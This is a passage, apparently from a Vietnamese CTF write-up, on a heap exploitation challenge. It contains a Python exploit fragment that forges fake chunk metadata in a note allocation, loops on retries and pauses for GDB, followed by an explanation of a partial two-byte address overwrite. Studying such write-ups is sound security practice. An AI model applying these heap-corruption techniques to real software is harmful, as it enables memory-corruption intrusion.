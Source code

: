 ```
    try:
        # After successfully add junk 6, we have a split between 
        # wild junk and the big junk with index 0
        Add(5, 0x50, b'55555555')
        payload = p64(0) + p64(0x21)        # Fake metadata of first chunk
        payload += p64(0)*2                 # Fake context
        payload += p64(0) + p64(0x21)       # Fake metadata of second chunk
        Add(6, 0x50, payload)
    except:
        p.close()
        continue
    input("GDB>")
```

Sau khi tạo thành công note index 6, chương trình vẫn có thể ở địa chỉ khác nên sẽ không tạo được chunk nhỏ ngay sau index 0 mà sẽ tạo tại địa chỉ đã được overwrite 2 byte cuối là 0x86b0

![NotAfterIndex0](images/NotAfterIndex0.png)
